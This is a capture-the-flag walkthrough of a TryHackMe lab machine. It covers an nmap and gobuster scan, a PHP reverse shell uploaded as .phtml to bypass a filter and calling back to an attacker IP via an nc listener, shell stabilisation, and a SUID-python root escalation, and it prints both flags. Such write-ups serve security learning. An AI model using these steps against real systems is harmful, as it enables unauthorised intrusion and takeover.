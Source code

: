 # Initial 
Using Nmap for scaning service dan port running on server side

```bash
start machine

nmap -sC -sV "machines IP" -oN nmap/initial.txt
```

# Nmap Output

```
# Nmap 7.94 scan initiated Sun Jan 21 14:31:42 2024 as: nmap -sC -sV -oN nmap/initial.txt 10.10.25.147
Nmap scan report for 10.10.25.147
Host is up (0.32s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jan 21 14:33:15 2024 -- 1 IP address (1 host up) scanned in 93.14 seconds

```

# Gobuster

Using gobuster for scanning directori web

```
gobuster dir -u http://IPMACHINE -w "wordlist-path"

found /panel dan /uploads

```

# Reverse shell 

Reverse shell I using from wordlist

```
/usr/share/webshells/php/php-reverse-shell.php

```
and I edit some parameter like IP local attacker dan port

```
et_time_limit (0);
$VERSION = "1.0";
$ip = '10.6.23.159';  // CHANGE THIS
$port = 9999;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

```
and change format file from .php to .phtml or .php3
Using NC for listening port dan reverse shell

```
nc -lnvp 9999

```

After upload file success, go to /uploads dan click the file 

and go back to the terminal and see nc success listening using python for stabilise shell

```python
python -c 'import pty;pty.spawn{"/bin/bash")'

```
find / -type f -name user.txt


```
the flag
THM{y0u_g0t_a_sh3ll}

```

# Privilage Escalation

```
find / -type f -user root -perm -4000 2>/dev/null

```


find the SUID binaries, and /usr/bin/python is weird, and i go https://gtfobins.github.io/ to search privelage escalation for python SUID. 

```python
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'

```

And wala, your shell become root, and the last think search the root flag


```
/root/
cat root.txt

THM{pr1v1l3g3_3sc4l4t10n}

```